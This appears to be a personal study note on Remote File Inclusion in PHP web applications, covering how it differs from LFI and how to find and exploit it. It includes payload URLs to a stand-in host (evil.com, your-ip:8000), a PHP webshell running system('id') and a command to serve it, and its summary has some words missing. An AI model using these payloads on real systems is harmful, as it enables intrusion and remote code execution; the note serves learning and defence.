 # 12.rfi

14/05/25

## Recall

- What is RFI (Remote File Inclusion)?
- How is RFI different from LFI?
- What server configurations make RFI possible?
- What can an attacker achieve through RFI?
- How can developers prevent RFI vulnerabilities?

## Notes

### What it is

**Remote File Inclusion (RFI)** is a vulnerability that occurs when a web application dynamically includes files based on user input **and allows external URLs** to be passed as parameters. If the server is misconfigured (`allow_url_include = On` in PHP), it will download and execute remote content — giving the attacker a foothold for **Remote Code Execution (RCE)**.

Despite exploiting the same weakness as LFI (lack of input validation in file inclusion), RFI has distinct behavior:

|  | **LFI** | **RFI** |
| --- | --- | --- |
| Includes | Local files on the server | Remote files via URL |
| Goal | Read files, potentially achieve RCE via chaining | Direct RCE |
| Depends on | File path traversal | Server misconfig + external URLs |
| Example | `?page=../../etc/passwd` | `?page=http://evil.com/shell.txt` |

### How to identify it

To identify a RFI vulnerability, look for parameters in URLs that suggest dynamic file loading:

```bash
https://example.com/index.php?page=home
```

Begin injecting RFI payloads. Unlike LFI, RFI payloads use **fully qualified external URLs**:

```html
https://example.com/index.php?page=https://google.com
```

If the application renders the external page, or attempts to include and parse its contents, the vulnerability is likely present.

### How to exploit it

The primary goal of an RFI vulnerability is to load arbitrary remote code into the server — enabling **Remote Code Execution** using a type of **WebShell**.

Hosting a malicious script

```php
<?php
// rce.php
system("id");
```

Serving using a simple HTTP server

```bash
python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

with that, inject the URL on the application and see if the command is executed

```bash
https://example.com/index.php?page=http://your-ip:8000/rce.php
```

If executed, the attacker gains full command execution

## Summary

Remote File Inclusion (RFI) is a high-impact vulnerability that allows an attacker to include and execute remote files through user-supplied input. It arises when insecure code like is combined with insecure server configurations like. Exploiting RFI often leads to full Remote Code Execution, especially when the attacker hosts malicious scripts externally. While rare in hardened environments, RFI is still common in legacy systems, development environments, and poorly configured servers. Preventing RFI requires rejecting URLs in file includes, disabling dangerous directives, and controlling which files can be dynamically loaded.